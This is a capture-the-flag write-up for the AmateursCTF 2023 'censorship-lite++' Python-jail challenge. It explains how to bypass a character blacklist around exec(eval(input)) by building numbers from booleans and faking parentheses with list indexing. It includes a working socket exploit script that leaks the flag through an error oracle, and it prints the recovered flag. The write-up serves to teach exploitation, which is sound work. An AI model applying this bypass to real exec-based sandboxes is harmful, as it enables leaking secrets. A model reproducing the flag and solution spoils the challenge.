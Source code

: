# censorship-lite++

you may want to read my [censorship-lite](https://github.com/quasar098/ctf-writeups/tree/main/amateursctf-2023/censorship-lite) writeup if you havent already (for background + better understanding)

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/65b625a5-31fd-44c4-9dbf-91f4ac241070)

main.py
```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."]):
                print("invalid input")
                continue
            exec(eval(code))
        except Exception as err:
            print("zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz")
```

## solution

taking a look at allowed keywords, we get these:

```
>>> [code for code in dir(__builtins__) if not any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."])] 
['EOFError', 'IOError', 'LookupError', 'OSError', 'TabError', '__doc__', 'abs', 'any', 'chr', 'hash', 'map', 'max', 'ord', 'pow', 'round', 'sum', 'vars']
```

we barely have anything to use, can't even call any functions, so the above is (mostly, you'll see why not fully) useless

luckily, we can still create numbers by adding booleans together, and we can still create booleans because `func==func` is true always.

we don't have access to parenthesis, but we can emulate them using lists and then getting the 0th index of the list by using <br>
`[<thing>][vars!=vars][vars!=vars]`. this is equivalent to `(<thing>)`

my first solution was to compare parts of the flag with characters that we are allowed to use (e.g. `"a"[flag[0]=="a"]`, then check if error), 
but i was in disbelief at how many characters were not allowed to be printed, so we could not check them to see if they were in the flag

i got `amateursCTF{??_?????_??????_????s_???_??_??gh?_??gh?_??_flag_???_the_??gh?_????d_??_?????s?_??v??}` by checking chars that were not allowed in the flag

my realization came eventually that we could compare letters in the flag to each other, instead of to string literals we make<br>
what i mean is from `"a"[flag[0]=="a"]` to `"a"[flag[0]==flag[2]]`

if the output is an error (prints zzzzzzz), then we know that those two characters are equal

and use intuition and guesswork to deduce the flag

```py
import socket
from time import sleep
from string import printable as allch

HOST = "amt.rs"
PORT = 31672

chars = "abcdfghjkmnopqrsuvwxyz"
chars += chars.upper()
chars += "_{}.:-=+[]()*!@#$%^&<>,./?"


printable = ""

for _ in allch:
    if _ not in "lite0123456789<:(){}*\\,-.\"' ":
        if 32 < ord(_) < 128:
            printable += _


def get_num(v):
    return "+".join([f"[vars==vars][vars!=vars]"] * v)


def get_char_payload(index2: int, index3):
    thing2 = "+" if index2 else ""
    thing3 = "+" if index3 else ""
    return f'"a"[_[[vars==vars][vars!=vars]%[vars==vars][vars!=vars]{thing2}{get_num(index2)}]==' \
           f'_[[vars==vars][vars!=vars]%[vars==vars][vars!=vars]{thing3}{get_num(index3)}]]'


total = ""
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.recv(1024)
    for i2 in range(98):
        for i3 in range(i2, 98):
            if i3 == i2:
                continue
            pl = get_char_payload(i2, i3)
            s.send((pl + "\n").encode('ascii'))
            sleep(0.01)
            if "zzzz" in s.recv(1024).decode('ascii'):
                print(i2, "==", i3)

# a m a t e u r s C T F { l e _ e l i t e _ l i t  t l e _ t i l e s _ l e t _ l e _ l i g h t _ l i
# 0 1 2 3 4 5 6 7 8 9 1011121314151617181920212223 24252627282930313233343536373839404142434445464748
# g h t _ l e _ f l a g _ t i l _ t h e _ l i g h  t _ t i l e d _ l e _ e l i t i s t _ l e v e l }
# 495051525354555657585960616263646566676869707172 73477576777879808182838485868788899091929394959697
```

we get the flag now
